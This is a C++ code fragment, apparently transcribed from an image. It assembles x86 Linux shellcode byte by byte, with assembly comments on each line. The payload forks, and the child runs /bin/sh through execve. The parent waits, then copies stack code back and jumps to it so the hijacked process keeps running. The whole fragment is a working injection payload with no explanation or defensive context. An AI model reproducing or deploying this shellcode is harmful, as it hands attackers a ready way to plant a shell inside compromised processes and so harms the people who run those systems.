 ```c++
 
 CBuf[i++]='\x57';                                   //pushl %edi
 CBuf[i++]='\x56';                                   //pushl %esi
 CBuf[i++]='\x52';                                   //pushl %edx 
 CBuf[i++]='\x51';                                   //pushl %ecx 
 CBuf[i++]='\x53';                                   //pushl %ebx  
 CBuf[i++]='\x9C';                                   //pushf
 
 CBuf[i++]='\xFC';                                   //cld

 CBuf[i++]='\x31';CBuf[i++]='\xC0';                  //xorl %eax,%eax
 CBuf[i++]='\x66';CBuf[i++]='\xB8';                  //movw $AddThis,%ax
 SBuf=(unsigned short*)&CBuf[i];*SBuf=AddThis;i=i+2;
 CBuf[i++]='\x29';CBuf[i++]='\x45';CBuf[i++]='\x08'; //subl %eax,0x8(%ebp)

 CBuf[i++]='\x31';CBuf[i++]='\xC0';                  //xorl %eax,%eax
 
 CBuf[i++]='\xBF';                        //movl $BufferAddress+$NullOffset,%edi
 LBuf=(unsigned long*)&CBuf[i];*LBuf=BufferAddress+NullOffset;i=i+4;  
 CBuf[i++]='\xAB';                                   //stosl %eax,%es:(%edi)

 CBuf[i++]='\xBF';                     //movl $BufferAddress+$BinSh00Offset,%edi
 LBuf=(unsigned long*)&CBuf[i];*LBuf=BufferAddress+BinSh00Offset;i=i+4;
 CBuf[i++]='\xAA';                                   //stosb %al,%es:(%edi)

 CBuf[i++]='\xB0';CBuf[i++]='\x02';                  //movb $0x2,%al
 CBuf[i++]='\xCD';CBuf[i++]='\x80';                  //int $0x80 (fork())
 
 CBuf[i++]='\x31';CBuf[i++]='\xD2';                  //xorl %edx,%edx
 CBuf[i++]='\x39';CBuf[i++]='\xD0';                  //cmpl %edx,%eax
 CBuf[i++]='\x75';CBuf[i++]='\x10';                  //jnz +$0x10 (-> LFATHER)

 CBuf[i++]='\xB0';CBuf[i++]='\x0B';                  //movb $0xB,%al
 CBuf[i++]='\xBB';                       //movl $BufferAddress+$BinShOffset,%ebx
 LBuf=(unsigned long*)&CBuf[i];*LBuf=BufferAddress+BinShOffset;i=i+4; 
 CBuf[i++]='\xB9';                //movl $BufferAddress+$BinShAddressOffset,%ecx
 LBuf=(unsigned long*)&CBuf[i];*LBuf=BufferAddress+BinShAddressOffset;i=i+4; 
 CBuf[i++]='\x31';CBuf[i++]='\xD2';                  //xorl %edx,%edx
 CBuf[i++]='\xCD';CBuf[i++]='\x80';                  //int $0x80 (execve())
 
                                                     //LFATHER:
 CBuf[i++]='\x89';CBuf[i++]='\xD6';                  //movl %edx,%esi
 CBuf[i++]='\x89';CBuf[i++]='\xD1';                  //movl %edx,%ecx
 CBuf[i++]='\x89';CBuf[i++]='\xD3';                  //movl %edx,%ebx
 CBuf[i++]='\xF7';CBuf[i++]='\xD3';                  //notl %ebx
 CBuf[i++]='\x89';CBuf[i++]='\xD0';                  //movl %edx,%eax
 CBuf[i++]='\xB0';CBuf[i++]='\x72';                  //movb $0x72,%al
 CBuf[i++]='\xCD';CBuf[i++]='\x80';                  //int $0x80 (wait())
 
 CBuf[i++]='\x31';CBuf[i++]='\xC9';                  //xorl %ecx,%ecx
 CBuf[i++]='\xB1';CBuf[i++]=StackCodeSize;           //movb $StackCodeSize,%cl

 CBuf[i++]='\xBE';                   //movl $BufferAddress+$StackCodeOffset,%esi
 LBuf=(unsigned long*)&CBuf[i];*LBuf=BufferAddress+StackCodeOffset;i=i+4; 

 CBuf[i++]='\x89';CBuf[i++]='\xEF';                  //movl %ebp,%edi
 CBuf[i++]='\x29';CBuf[i++]='\xCF';                  //subl %ecx,%edi
 CBuf[i++]='\x89';CBuf[i++]='\xFA';                  //movl %edi,%edx
 
 CBuf[i++]='\xF3';CBuf[i++]='\xA4';           //repz movsb %ds:(%esi),%es:(%edi)

 CBuf[i++]='\xFF';CBuf[i++]='\xE2';                  //jmp *%edx (stackcode)

```